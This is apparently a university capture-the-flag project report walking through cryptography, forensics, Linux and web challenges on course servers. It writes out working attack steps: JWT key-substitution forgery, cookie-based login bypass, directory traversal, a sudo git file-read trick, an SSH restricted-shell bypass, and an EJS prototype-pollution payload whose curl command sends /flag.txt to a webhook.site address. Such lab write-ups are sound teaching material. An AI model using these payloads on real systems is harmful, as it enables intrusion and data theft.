 <div style="display: flex; flex-direction: column; justify-content: center; align-items: center; height: 100vh;">
  
  <h2>CITS1003 Project Report</h2>
  
  <p>Student ID: 24516605</p>
  <p>Student Name: Zhulin Lyu</p>

</div>

# Part 1 - Cryptography
## 1 - Advanced Emu Standard
### Step 1: Separate The Command
Based on ECB mode, I separated the command into two 16-byte blocks and encrypted each one using the website.

```bash
deactivate_speci #encrypt: 3155433d53ed30c89aef89b2e7273924
al_procedure_123 #encrypt: 4127efafc809cc1209376d039e0001f1
```
### Step 2: Concatenate The Two Encrypted Commands
```
3155433d53ed30c89aef89b2e72739244127efafc809cc1209376d039e0001f1
```
pasted the result to **Transmit encrypted command** on the website

#### Flag Found
```bash
UWA{3CB_i5_bL0cK_Ind3peNd3nt!}
```


## 2 - Emu Cook Book
### Step 1 From Base64
Whenever I encounter text that ends in "==", it is likely to be Base64. Therefore, I use From Base64 first.
#### Output
![alt text](<Screenshot 2024-04-24 at 15.55.19.png>)
### Step 2 Gunzip
From the hint: "...try to detect the file type," I considered the types of file operations we can use, such as zip. Then I searched online and found one called Gunzip.
#### Output
![alt text](<Screenshot 2024-04-24 at 15.56.43.png>)
### Step 3 URL Decode
From the hint: URL Encoding, which is also called percent encoding, I saw that after step 2, the result contained many "%". So, I chose to use URL Decode.
#### Output
![alt text](<Screenshot 2024-04-24 at 15.57.26.png>)
### Step 4 From Hexdump
After Step 3, I saw the result appeared as a hex dump, so I chose to decode it using From Hexdump.
#### Output
![alt text](<Screenshot 2024-04-24 at 15.59.22.png>)
### Step 5 From Hex
Then there was some hexadecimal data, so I chose From Hex to decode it.
#### Output
![alt text](<Screenshot 2024-04-24 at 16.02.35.png>)
### Step 6 From Base64

#### Flag Found
```bash
UWA{tH3_eMoO5_w1LL_n3V3r_sToP_d01nG_tH35e_dVmB_c1Br_cH3eF_ch4LlS}
```

## 3 - Emu Casino
### Step 1 Find Cookies
As shown in the coin flipping code `flip_coin.py`, the random number of the PRNG is based on `session_id` and `round`. From inspecting the website, I found the cookies as shown in the following picture:
![alt text](<Screenshot 2024-04-26 143639.png>)

Decode the value to obtain the session_id. Each subsequent request will always carry this session ID.

### Step 2 Decode The Randem
Using the code `solution_template.py`, we can easily determine the outcome of the next coin flip by decoding the `session_id` and changing the `round` each time before clicking the "Place Bet" button on the website.
![alt text](<Screenshot 2024-04-26 144631.png>)

#### Flag Found
```bash
UWA{R0LLl111Llli1iNg_1N_C4$$$$h!11!}
```

## 4 - EWT
### Step 1 Discover A Flaw From The Code
After reading their code, I found they checked for `HS256` or `RS256` signing algorithms, but they haven't figured out how to sign their own RS256 JWTs yet.
![alt text](<Screenshot 2024-05-16 at 14.26.51.png>)
First, I obtained a pair of public/private keys and a URL. These keys were to be used for the RS256 signature algorithm. Then, I extracted the URL of the public key from the iss declaration in the JWT payload.

### Step 2 Creat Myself Keys
I chose [RSA Key Generator](https://cryptotools.net/) to creat my own `PUBLIC KEY` and `PRIVATE KEY`, as following:

```bash
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCYagC0fediNv8zJQ0dsLRTlN13
ILZyC5iprBow8HnqKANNMdpSj4F8h7YyD5cnrLC9ZDwsW2oldksKEtIfMlq4OETo
Pgkkqyg5n4lOVp1vqKEA7Y1hdQeCvT637+57sg8wCawHFIFNMjXjhsMGlVTGkqBA
DuxeXPuGkJHK3Kk80QIDAQAB
-----END PUBLIC KEY-----
```
```bash
-----BEGIN RSA PRIVATE KEY-----
MIICXAIBAAKBgQCYagC0fediNv8zJQ0dsLRTlN13ILZyC5iprBow8HnqKANNMdpS
j4F8h7YyD5cnrLC9ZDwsW2oldksKEtIfMlq4OEToPgkkqyg5n4lOVp1vqKEA7Y1h
dQeCvT637+57sg8wCawHFIFNMjXjhsMGlVTGkqBADuxeXPuGkJHK3Kk80QIDAQAB
AoGADMupb326dTZkymhr53g0S2gOB7hJWN28XVJDiKRHt+7QCCUNTS0bE9dY5m8E
o6IN3HiTzK2IBckel6Po3BGgKAEfuGe7ZWlHpW+lD+BqRkRmaWBuOxyKtvWevycw
PHwX6B8qfB2LP9ptJOjQZzwOakQqxmr2Grqbn/J6bTfI14ECQQD3QWZVh2NW84xB
dh71pk17j17hWXkwkiJmP8kwn1VmmWZa2nOtrpB3r+0tjagY3DDm5UHJQOqiaaWp
MbxjH9IJAkEAnc3tsZzIFzRFjHy761WN/3B38lnlWMDGmA5v6d1bIsak9+7sFW2E
6NG93WGpeAVFnVnoUqxlpN7/PFGllvCmiQJAYp3ADh7ovTZ4W2ecY4fH4Z9GTYUd
NAUlGTkZqn3yVvCaBWSZvM0iK8qMQ537TKcODhmkSnvM2ahffYMryzFW2QJAQmCv
vgkzxUbwhlKlfS0kqLD3U1Lq/PVB1A4mlxnMTwl9tOikF7NUt9YZ5jhBX8Hf8Xsz
FSt9Kee/NvElFSOu+QJBALCN4b++ddrrE/TETefAzcUELwU7qEHUVW591PyDLGYe
TnGmcHn127E2F7oBYModCJyJmtg9yaKO67iVEGal+ac=
-----END RSA PRIVATE KEY-----
```
### Step 3 Create URL
The code showed that it would check if the URL is properly formatted, specifically if it starts with the following. If everything is formatted correctly, it will proceed to download the public key through this URL.
```bash
const regExp = new RegExp("^https?://");
```
Thereforte I used https://pastebin.com to create a URL  for the public key. This way, I obtained my URL.
```bash
https://pastebin.com/raw/KLQnfGfh
```
### Step 4 Find The Formatted
EMU WEB has a `hooman JWT`:
```bash
Here is your JWT token hooman: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InBlYXNhbnQtaG9vbWFuIiwiaWF0IjoxNzE1ODQzNDkyfQ.axlFrX95RzeOgp2XCKlgYeslUmGi5hjeh9s_yBCn6pI
```
Decoded it by `From Base64`, I got the correct format.
![alt text](<Screenshot 2024-05-16 at 14.24.03.png>)

As per step 1, where it was mentioned to "get the URL of the public key from the iss declaration in the JWT payload," I encrypted the following information using my PRIVATE KEY in `JWT Sign`.
```bash
{"username":"superior-emu","iss":"https://pastebin.com/raw/KLQnfGfh","iat":1715840554}
```
![alt text](<Screenshot 2024-05-20 at 14.48.27.png>)
After I pasted the output from `JWT Sign`, I got
```bash
Welcome my emu friend! Here is the flag UWA{w4iT_wHeR3_d1D_u_g1T_d4t_k3y???}
```
#### Flag Found
```bash
UWA{w4iT_wHeR3_d1D_u_g1T_d4t_k3y???}
```
![alt text](<Screenshot 2024-05-20 at 14.48.04.png>)

# Part 2 - Forensics
##  1 - Caffeinated Emus
### Step 1 Find Metadata
Metadata can be found in image info. 
I found the GPS location of this picture
<img src="Screenshot 2024-04-26 at 16.41.19.png" alt="alt text" width="262" height="382">

### Step 2 Search GPS
From Google map we can find the place name
#### Flag Found
```bash
UWA{Marvel Loch}
```

##  2 - Flightless Data
### Step 1 Install Steghide
Steghide is a command-line tool used for hiding and extracting data (such as files, text, or images). I installed Steghide in my VM using the following command:
```bash
sudo apt install steghide
```
#### Command Explain
1. "sudo": This command is used in Unix-like operating systems to execute commands with superuser privileges. It stands for "superuser do".

2. "apt": This is the package manager command-line tool used in Debian-based Linux distributions (such as Ubuntu). It's used for installing, updating, and removing software packages.

3. "install": This is an argument passed to the "apt" command, specifying that the action to be performed is the installation of a package.

4. "steghide": This is the name of the software package being installed. It's a tool for hiding data within various types of files using steganography techniques.
   
### Step 2 Decode The Image
I downloaded the image `Untitled.jpeg` from my email and then ran the following command to decode it:
```bash
steghide extract -sf Untitled.jpeg
```
#### Command Explain
1. "steghide": This is the name of the command-line tool that is being executed. It's the main program responsible for hiding and extracting data in files using steganography techniques.

2. "extract": This is one of the subcommands of the steghide tool. It specifies that the action to be performed is the extraction of hidden data from a file.

3. "-sf": This is a command-line option used with the "steghide extract" command. It stands for "stego file" and is followed by the name of the JPEG image file ("Untitled.jpeg") from which the hidden data will be extracted.
4. 
Enter the password from `email.html`, I got a data named `secret.txt`.
```bash
Hello my fellow Emu.

Fortunately the hoomans arent big brain like use and would not look for this secret message in the least significant bits of an image!

UWA{fLigHtL3sS_d4Ta_uNd3r_tH3_r4dAr}  
```
#### Flag Found
```bash
UWA{fLigHtL3sS_d4Ta_uNd3r_tH3_r4dAr}
```

##  3 - Ruffled Feathers
### Step 1 Install Ghex
Use the following command to install Ghex
```bash
sudo apt install ghex
```
### Step 2 Open A PDF
I opened two files, one was the target PDF, and the other was a normal PDF. While comparing the two, I found that the first one was missing the information for `Length`. So, I changed "currupt 272" to "Length 272".
![alt text](<Screenshot 2024-04-28 at 15.03.15.png>)
#### Flag Found
```bash
UWA{uNrUffLed_pDeF}
```
<img src="Screenshot 2024-04-28 at 15.04.34.png" alt="alt text" width="262" height="180">


## 4 - Emu in the Shell
### Step 1 Log Into Server
From the context, they asked me to use a created the following account to SSH into their server.
Base on Hint of `scp command`, I used the following command to connect the host. 
```bash
ssh -p 2022 ir-account@34.87.251.234
```
#### Command Explain
1. "ssh": This is the command-line tool used for securely connecting to remote systems or servers.
2. "-p 2022": This option specifies the port number to connect to. In this case, port 2022 is specified instead of the default SSH port (22).
3. "ir-account": This is the username used to log in to the remote system.
4. "@34.87.251.234": This is the IP address or hostname of the remote system to connect to. In this case, it's the IP address "34.87.251.234".
```bash
username: ir-account
password: topsecretpasswordforincidentresponse
```
Then I changed my directory to `/lib/x86_64-linux-gnu/security`, there were a bunch of files.
I uesd the following command to sort them and found the most recently modified file in a directory
```bash
ls -al | sort -r | head -n 5
```
In this command, `sort` is used to arrange the output by modification time in reverse order, with the most recent files appearing first.

### Step 2 Copy Files
I found that the file `pam_unix.so` had been recently modified. Following the hint, I used the command to copy it to my local device.
![alt text](<Screenshot 2024-05-16 at 17.55.00.png>)
```bash
scp -P 2022 ir-account@34.87.251.234:/lib/x86_64-linux-gnu/security/pam_unix.so ./pam_unix.so
```
#### Command Explain
1. "scp": This is the command-line tool used for securely copying files between hosts using SSH.
2. "-P 2022": This option specifies the port number to connect to. In this case, port 2022 is specified instead of the default SCP port (which is also 22).
3. "ir-account@34.87.251.234": This specifies the username ("ir-account") and the IP address (or hostname) of the remote host from which the file will be copied.
4. ":/lib/x86_64-linux-gnu/security/pam_unix.so": This is the path to the file "pam_unix.so" on the remote host that you want to copy.
5. "./pam_unix.so": This is the destination path where the file will be copied on your local machine. In this case, it's the current directory, and the copied file will be named "pam_unix.so".
   
### Step 3 Download A Tool
1. I downloaded a tool named ghidra in my VM.
2. To ensure that I have configured the Java environment variables correctly, I used the command java -version.
3. I navigated to /usr/lib/jvm and found a file containing both Java and Javac. I located /usr/lib/jvm/java-17-openjdk-amd64.
4. I set the JAVA_HOME environment variable to point to the JDK installation directory by pasting the following command:
```bash
export JAVA_HOME=/usr/lib/jvm/java-17-openjdk-amd64
```
1. Finally, I successfully opened the tool using the command ./ghidraRun.

### Step 4 Processing Files
1. I opened a new file and created a new project named "Emu in Shell". Then, I imported the file pam_unix.so.
2. Next, I right-clicked the file and chose "open with" -> "CodeBrowser".
3. After reading the article on pluggable authentication modules (PAM), I tried to find a directory named something like xxx_authentication. I found pam_sm_authenticate.
   ![alt text](<Screenshot 2024-05-19 at 22.14.27.png>)
4. I switched to decompile mode and examined their code. After analyzing it, I found a username and password.
   ![alt text](<Screenshot 2024-05-19 at 22.24.57.png>)
```bash
username: emu-haxor
password: pUpPet_m4sT3r
```
### Step 5 Find Flag
SSH into the server using the above account, after that I found a file named flag.txt. I got the flag by cat it
```bash
ssh -p 2022 emu-haxor@34.87.251.234
```
#### Flag Found
```bash
UWA{tH15_eMu_w1Ll_aLw4y5_b3_iN_uR_sH3lLlLllL!11!}
```
![alt text](<Screenshot 2024-05-19 at 22.26.49.png>)

# Part 3 - Linux and Networking
## 1 - Backdoored
### Step 1 Ports Scan
 By used the command `nmap` to scan ports
 ```bash
 nmap -p 61000-61500 -Pn 34.116.68.59
 ```
#### Command Explain
1. "nmap": This is the command-line tool used for network discovery and security auditing.
2. "-p 61000-61500": This option specifies the range of ports to be scanned. In this case, it's ports 61000 through 61500.
3. "-Pn": This option tells Nmap not to perform host discovery. By default, Nmap performs host discovery to determine which hosts are online before scanning. "-Pn" disables this and assumes the target host is online.
4. "34.116.68.59": This is the IP address of the target host that will be scanned for open ports.
   
I got a suspicious port
```bash
PORT      STATE SERVICE
61337/tcp open  unknown
```

### Step 2 Send A TCP Message
I sent a TCP message content `EMU` to the previous port
```bash
echo "EMU" | nc 34.116.68.59 61337
```
#### Command Explain
1. "echo "EMU"": This command prints the string "EMU" to the standard output.
2. "|": This is a pipe operator that redirects the standard output of the command on the left side to the standard input of the command on the right side.
3. "nc": This is the netcat command-line tool used for reading from and writing to network connections.
4. "34.116.68.59": This is the IP address of the target host to which the data will be sent.
5. "61337": This is the port number on the target host where the data will be sent.
I got a respond
```bash
 
 ______        ___   _ _____ ____    _                  
|  _ \ \      / / \ | | ____|  _ \  | |__  _   _        
| |_) \ \ /\ / /|  \| |  _| | | | | | '_ \| | | |       
|  __/ \ V  V / | |\  | |___| |_| | | |_) | |_| |       
|_|     \_/\_/  |_| \_|_____|____/  |_.__/ \__, |       
    _                             _____    |___/        
   / \   _ __   __ _ _ __ _   _  | ____|_ __ ___  _   _ 
  / _ \ | '_ \ / _` | '__| | | | |  _| | '_ ` _ \| | | |
 / ___ \| | | | (_| | |  | |_| | | |___| | | | | | |_| |
/_/   \_\_| |_|\__, |_|   \__, | |_____|_| |_| |_|\__,_|
               |___/      |___/                         

Did you really think you would find our backdoor so easily? :P

Good effort though, here's a flag for your attempt: UWA{4dvanC3d_p0r7_5sc4nN1nG?1!?1}
```
#### Flag Found
```bash
UWA{4dvanC3d_p0r7_5sc4nN1nG?1!?1}
```

## 2 - Git Gud
### Step 1 Download Git Repository
Using `git clone` to download a emu git repository
```bash
git clone http://34.116.68.59:8000/emu.git 
```
I got a folder called `emu`
### Step 2 Open Emu Folder
I used `cat` to open the `README.txt` inside folder, got following content:
```bash
UWA{N()w_y0U_kN0W_40w_2_u53_g17!1!!}
--------------------------------------------------

To Angry Emu hacker,

As per our agreement, I have set up some SSH credentials for you to access our server:

username: emu001
password: feathers4life24

To make sure only us birbs can get in I set a login shell to stop pesky hoomans getting in. Just do that SSH trick I taught you about to get in.

Delete this message after you read it!

Best regards,
Mr. X

```

#### Flag Found
```bash
UWA{N()w_y0U_kN0W_40w_2_u53_g17!1!!}
```

## 3 - SSH Tricks
### Step 1 Bypass The Login
```bash
ssh -t -p 2022 emu001@34.116.68.59 "bash -i"
```
### Step 2 Copy Image
```bash
scp -P 2022 emu001@34.116.68.59:/home/emu001/top_secret.png ./top_secret.png
```
#### Flag Found
```bash
UWA{how_did_u_get_past_that_login_shell?????}
```
![alt text](654a8c2354d76a43291a9ab8ddc3b5f5.jpeg)

## 4 - Git Gud or GTFO Bin
### Step 1 Change The Direction
To log in as step 3
```bash
ssh -t -p 2022 emu001@34.116.68.59 "bash -i"
```
From the text, the flag is in `/home/mr_x/flag4.txt`. So I changed to the directory using the following command.
```bash
cd /home/mr_x
```
### Step 2 Use Git Comman
File `flag4.txt` cound not open directly. From hints, I found [GTFOBins git page linked](https://gtfobins.github.io/gtfobins/git/) .
There is a one called `Read`
![alt text](<Screenshot 2024-05-14 at 17.13.23.png>)
I tried the command
```bash
LFILE=flag4.txt
git diff /dev/null $LFILE
```
the result showed 
```bash
error: open("flag4.txt"): Permission denied
fatal: cannot hash flag4.txt
```
### Step 3 Use Sudo Comman
From context, there was a `sudo` command use together with `git`. Therefor I changed my command as the following:
```bash
LFILE=flag4.txt
sudo -u mr_x git diff /dev/null $LFILE
```
#### Command Explain
1. LFILE=flag4.txt: This sets the variable LFILE to the value flag4.txt.
2. sudo -u mr_x: This executes the subsequent command (git diff /dev/null $LFILE) with elevated privileges as the user mr_x.
3. git diff /dev/null $LFILE: This runs the git diff command, comparing the file /dev/null (which represents an empty file or null device) with the file specified in the variable $LFILE.

After used the same password from the Question1, I got the flag.

#### Flag Found
```bash
UWA{i_G0T_g1t_g0oD_4Nd_gTf0_B1N5d_InT0_yR_aCcOunT!!1}
```
![alt text](<Screenshot 2024-05-14 at 17.16.50.png>)


# Part 4 - Vulnerabilities
## Feathered Forum - Part 1
### Step 1 Find Cookie
From the code the Emus wrote that handles this Cookie token verification. I found they intend to check the cookie of name
```bash
request.cookies.get('username', None) in emu_usernames:
```
compared with username in EMU_USERS_ACCOUNTS.
Then I saw their source code `app.py`. There are some usernames can be found.
```bash
EMU_USERS_ACCOUNTS = [
    {
        "username": "BeakMaster",
        "password": os.urandom(16).hex()
    },
    {
        "username": "OstrichOutlaw",
        "password": os.urandom(16).hex()
    },
    {
        "username": "H4ck3r3mu123",
        "password": os.urandom(16).hex()
    }
]
```

### Step 2 Setting Cookie
By inspecting the browser, I set a new cookie on this website with the name 'username' and the value 'BeakMaster'.
![alt text](<Screenshot 2024-05-06 at 17.44.25.png>)
### Step 3 Bypass The Login Page
After saving Step 2, I reloaded the page and gained access to the forum at `/forum` by appending it to the end of the URL.
```bash
http://34.87.251.234:8000/forum
```

#### Flag Found
```bash
UWA{C00k13333z_4r3_Th3_W4y_T0_4n_3mu's_H34rt}
```
![alt text](<Screenshot 2024-05-06 at 17.51.24.png>)

## Feathered Forum - Part 2
### Step 1 Find Forum
After Part 1, I was in the Emu Forum, and read their posts. I found one that may be talking about CWE.
![alt text](<Screenshot 2024-05-08 at 16.00.39.png>)
### Step 2 
In this forum, I found they talked about CWE-22.
#### Flag Found
```bash
UWA{CWE-22}
```

## Feathered Forum - Part 3
### Step 1 Explor Code
Base on the following code, I found they use `file_path` after "./static".
```bash
@app.route('/static')
def get_static_file():
    file_path = request.args.get('filename')

    # Make sure the hoomans cannot just read any file
    # Set the start of the file path to "./static"
    file_path = os.path.join("./static", file_path)

    if os.path.exists(file_path):
        return send_file(file_path)
    else:
        return "File not found", 404
```
Which means I can find `file_path` from the picture.
### Step 2 Change The Path
I intend to change the path of the picture from the Part 2 forum 
```bash
/static?filename=images/emu-hacker0.jpg
```
Following the hint, `../` moves to the parent folder. So, I changed the path to the following, which automatically downloaded a file called `config.yaml`.
```bash
http://34.87.251.234:8000/static?filename=../config.yaml
```
### Step 3 Read A File
For reading the ./config.yaml file, I use `cat` command to open it.
![alt text](<Screenshot 2024-05-08 at 16.30.59.png>)
#### Flag Found
```bash
UWA{Dir_Trav3rs@l_Flight}
```

## Emu Apothecary
### Step 1 Read The Code
From their code, what this code does is process the user input by parsing each attribute value in the input in the format {ingredientName}.{attribute} and storing it in the baseIngredients object. However, it is not perfectly safe to mention prototype contamination in the comments and try to prevent it by checking whether the key name contains a dot.

 ![alt text](<Screenshot 2024-05-20 at 11.57.21.png>)

### Step 2 Unique URL
as Context suggested, Copy my unique URL from the webhook website and replace {webhook} in the following terminal command. This is the command that I want to execute on the website that will send /flag.txt to my webhook.
```bash
curl -F flag=@/flag.txt {webhook}
```

From the hint, it talked about a Prototype Pollution gadget that could be exploited to get RCE when EJS renders a template.

Then I went to the website got my unique URL, as the following:
https://webhook.site/64474761-96c2-402d-aac5-1f08c43567f9


### Step 3 A Prototype Contamination Attack
![alt text](<Screenshot 2024-05-20 at 12.18.16.png>)
The web application is using the EJS template engine for rendering templates. [The article](https://docs.google.com/presentation/d/1Ae38Nv6mUntog3AIcI9m_IuBfoxBWoEsw7njI2x8EX0/edit#slide=id.g22e32f4d19a_0_5) talked about a Prototype Pollution gadget that could be exploited to get RCE when EJS renders a template.

I then changed the website URL to the following one:
```bash
http://34.87.251.234:8001/?__proto__.client=1&__proto__.escapeFunction=JSON.stringify;%20process.mainModule.require(%27child_process%27).exec(curl%20-F%20flag=@/flag.txt%20{https://webhook.site/64474761-96c2-402d-aac5-1f08c43567f9})
```
![alt text](<Screenshot 2024-05-20 at 12.37.21.png>)
The curl command tried to send a POST request to https://webhook.site/64474761-96c2-402d-aac5-1f08c43567f9, and will be the local file/flag. TXT as the content of the form data sent out.

![alt text](<Screenshot 2024-05-20 at 12.06.06.png>)
#### Flag Found
```bash
UWA{p0LlUtInG_tH3_eMu5_r3CiP3_w33B5iT3!!1!}
```
![alt text](<Screenshot 2024-05-20 at 12.07.30.png>)